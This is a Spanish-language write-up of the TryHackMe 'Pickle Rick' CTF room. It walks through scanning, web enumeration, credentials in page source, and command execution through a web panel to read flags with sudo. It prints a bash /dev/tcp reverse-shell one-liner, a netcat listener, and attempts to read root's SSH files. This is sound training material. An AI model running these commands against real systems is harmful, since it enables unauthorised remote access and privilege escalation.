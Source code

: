 ```yaml
---
layout: single
title: Pickle Rick - TryHackMe
excerpt: "Pickle Rick es un CTF de la plataforma de Tryhackme de dificultad muy facil es una maquina linux donde tendremos que encontrar 3 ingredientes para que Rick pueda hacer su posion para transformarse de vuelta a un humano las credenciales para conectarnos por un panel de login no las daran mientras enumeramos la maquina al final tendremos que leer los ingredientes en un apartado de la web donde podemos ejecutar comandos, en la maquina victima intente enviarme una reverse shell pero esta bloqueado el comando"
date: 2023-03-03
classes: wide
toc: true
toc_label: "Contenido"
toc_icon: "fire"
header:
  teaser: /assets/images/try-writeup-rickm/logo.png
  teaser_home_page: true
  icon: /assets/images/tryhackme.webp
categories:
  - Tryhackme
  - infosec
tags:  
  - Linux enumeration
  - Fuzzing
---
```

![](/assets/images/try-writeup-rickm/logo.png)

```bash
❯ ping -c 1 10.10.136.234
PING 10.10.136.234 (10.10.136.234) 56(84) bytes of data.
64 bytes from 10.10.136.234: icmp_seq=1 ttl=61 time=463 ms

--- 10.10.136.234 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 462.876/462.876/462.876/0.000 ms
❯ whichSystem.py 10.10.136.234

10.10.136.234 (ttl -> 61): Linux
```

## PortScan

```bash
❯ nmap -sCV -p22,80 10.10.136.234 -oN targeted
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-03 13:01 CST
Nmap scan report for 10.10.136.234
Host is up (0.21s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9828b8ef2be01ade352c2f290d85ec6b (RSA)
|   256 82581151eaa21e774c656f0b2d87580f (ECDSA)
|_  256 6191e8dadcaf7bc3327255efe58cb122 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.90 seconds
```

```bash
❯ nmap --script=http-enum -p80 10.10.136.234 -oN webScan
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-03 13:03 CST
Nmap scan report for 10.10.136.234
Host is up (0.20s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-enum: 
|   /login.php: Possible admin folder
|_  /robots.txt: Robots file

Nmap done: 1 IP address (1 host up) scanned in 22.22 seconds
```

## Enumeration

```ruby
❯ whatweb http://10.10.136.234
http://10.10.136.234 [200 OK] Apache[2.4.18], Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.10.136.234], JQuery, Script, Title[Rick is sup4r cool]
```

Y bueno en la web le estan diciendo a `Morty` que le ayude a encontrar los ingredientes para acabar su posion pero que el unico problema es que no sabe donde esta su contraseña

![](/assets/images/try-writeup-rickm/Web1.png)

Si vemos el codigo fuente vemos que encontramos credenciales

![](/assets/images/try-writeup-rickm/Web2.png)

`Username:R1ckRul3s`

Al tener un usuario podemos hacer fuerza bruta para encontrar la contraseña ya que el puerto `22` esta abierto vamos a seguir enumerando

`Nmap` nos resporta rutas interesantes

Encontramos esto en la ruta `robots.txt` no se si sea una contraseña ya que es un `CTF` pero por si acaso vamos a guardarla

![](/assets/images/try-writeup-rickm/Web3.png)

`Wubbalubbadubdub`

Ahora vemos un panel de login

![](/assets/images/try-writeup-rickm/Web4.png)

Esta usundo `php` asi que podemos fuzzear por otras rutas existentes

Encontramos rutas que ya habiamos visto la ruta `portal.php` nos redirige a `login.php`

```bash
❯ gobuster dir -u http://10.10.136.234 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 90 -x php,txt,html --add-slash
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.136.234
[+] Method:                  GET
[+] Threads:                 90
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,txt,html
[+] Add Slash:               true
[+] Timeout:                 10s
===============================================================
2023/03/03 13:15:48 Starting gobuster in directory enumeration mode
===============================================================
/login.php            (Status: 200) [Size: 882]
/index.html           (Status: 200) [Size: 1062]
/icons/               (Status: 403) [Size: 294] 
/assets/              (Status: 200) [Size: 2192]
/portal.php           (Status: 302) [Size: 0] [--> /login.php]
```

En la ruta `assets` vemos esto

![](/assets/images/try-writeup-rickm/Web5.png)

Vamos a probar el usuario que nos dieron para ver si es correcto

Si probamos lo que encontramos nos deja conectarnos y esta es la web

![](/assets/images/try-writeup-rickm/Web6.png)

`R1ckRul3s:Wubbalubbadubdub`

Si empezamos a ver lo que hay encontramos esto en `Potions`

![](/assets/images/try-writeup-rickm/Web7.png)

Si vemos todo nos redirige a `/denied.php` exepto `Commands`

![](/assets/images/try-writeup-rickm/Web8.png)

Bueno si vemos el codigo fuente  `portal.php` al logiarnos  al parecer vemos algo en base64

![](/assets/images/try-writeup-rickm/Web9.png)

```bash
Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==
```

Despues de decodar varias veces la cadena ya que cada que decodeabas de daba otra llegamos a este resultado 

```bash
❯ echo 'cmFiYml0IGhvbGU=' | base64 -d
rabbit hole
```

Y bueno nada interesante vamos a ver que es lo que podemos hacer en el apartado de `comands`

Estamos ejecutando comandos como `www-data` 

![](/assets/images/try-writeup-rickm/Web10.png)

Si hacemos un `ls -la` vemos que hay un archivo `.txt`

![](/assets/images/try-writeup-rickm/Web11.png)

Si lo vemos en la web encontramos esto

![](/assets/images/try-writeup-rickm/Web12.png)

Si hacemos un `hostname -i` estamos ejecutando comandos en la maquina victima asi que para enumerar mejor vamos a ganar acceso

![](/assets/images/try-writeup-rickm/Web13.png)

```bash
❯ nc -nlvp 443
listening on [any] 443 ...

```

Usaremos este `oneliner` que pondremos en la parte donde escribimos comandos

<https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet>

```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

Vale al probar varios `oneliners` y ademas poniendo el `&` a `%26` la web me dice esto

![](/assets/images/try-writeup-rickm/Web13.png)

Asi que vamos a tener que descubrir los 2 ingredentes faltantes desde esa parte de la web

Cuando hicimos un `ls -la` nos mostro otro archivo llamado `clue.txt` vamos a ver que encontramos hay

![](/assets/images/try-writeup-rickm/Web14.png)

Si ejecutamos este comando `cd /home;ls -la;pwd` vemos estos usuarios

![](/assets/images/try-writeup-rickm/Web15.png)

Si ejecutamos el comando `cd /home/rick;ls -la;pwd` vemos el segundo ingrediente

```bash
total 12
drwxrwxrwx 2 root root 4096 Feb 10  2019 .
drwxr-xr-x 4 root root 4096 Feb 10  2019 ..
-rwxrwxrwx 1 root root   13 Feb 10  2019 second ingredients
/home/rick
```

Si ejecutamos este comando `less /home/rick/"second ingredients"` podemos ver el ingrediente 

```bash
1 jerry tear
```

Ahora solo nos falta el ultimo 

Bueno algo a saber es que si hacemos un `sudo -l` podemos ejecutar cualquier comando como `www-data` sin proporcionar contraseña

```bash
Matching Defaults entries for www-data on ip-10-10-136-234.eu-west-1.compute.internal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-136-234.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```

Asi que ahora supongo que el ultimo ingrediente esta en la ruta de `root` 

Si ejecutamos este comando `sudo ls -la /root` vemos el `3rd.txt` asi vamos a leerla

```bash
sudo less /root/3rd.txt
```

```bash
3rd ingredients: fleeb juice
```

Intente ver la id_rsa de `root` pero no me dejo me dio el mismo error de `command disabled`

```bash
sudo cat /root/.ssh/authorized_keys
```




